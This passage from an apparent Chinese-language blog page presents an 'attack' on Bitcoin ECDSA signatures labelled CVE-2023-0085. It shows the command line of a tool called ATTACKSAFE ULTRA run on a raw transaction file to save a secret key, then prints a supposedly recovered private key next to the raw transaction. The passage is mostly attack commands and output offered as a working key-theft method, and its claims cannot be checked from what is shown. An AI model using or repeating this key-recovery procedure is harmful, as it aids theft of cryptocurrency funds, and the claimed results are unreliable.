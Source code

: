 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-32-1024x261.png" alt="比特币网络中的 DeserializeSignature 漏洞：密码分析、后果以及创建无效 ECDSA 签名的可能性" class="wp-image-5241"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">让我们<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code>使用该软件启动<code>“ATTACKSAFE&nbsp;ULTRA”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>!./attacksafe deserialization_error_vulnerability_cve-2023-0085.sage -open RawTX.txt -save SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-33-1024x435.png" alt="比特币网络中的 DeserializeSignature 漏洞：密码分析、后果以及创建无效 ECDSA 签名的可能性" class="wp-image-5242"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>我们发起了这次攻击<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code>，结果被保存到一个文件中<code><strong>SecretKey.txt</strong></code></p>



<p>现在要看到成功的结果，打开文件<code><strong>SecretKey.txt</strong></code></p>



<pre class="wp-block-code"><code><strong>cat SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-34-1024x223.png" alt="比特币网络中的 DeserializeSignature 漏洞：密码分析、后果以及创建无效 ECDSA 签名的可能性" class="wp-image-5243"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-35-1024x292.png" alt="比特币网络中的 DeserializeSignature 漏洞：密码分析、后果以及创建无效 ECDSA 签名的可能性" class="wp-image-5244"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>Deployments ECDSA:

SecretKey = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c

RawTX = 01000000010dbc696374c8d7ca61f32710e03aaedcb7a4f2428074814d0e1f4f7f5c1e5935000000008b483045022100b44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307022074e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f0141045cf7dd1ad49af6957415d6b76ff39cbf78f6e72f1db9199a01127687e7230f96614ff6f0184d2191fa7428872e311fe4ddf2b91f560b30fd7dc01d2118ac0b5bffffffff01d2040000000000001976a914d74b32dfa340da479ce64aaf5e326496eb3995f188ac00000000</strong></code></pre>
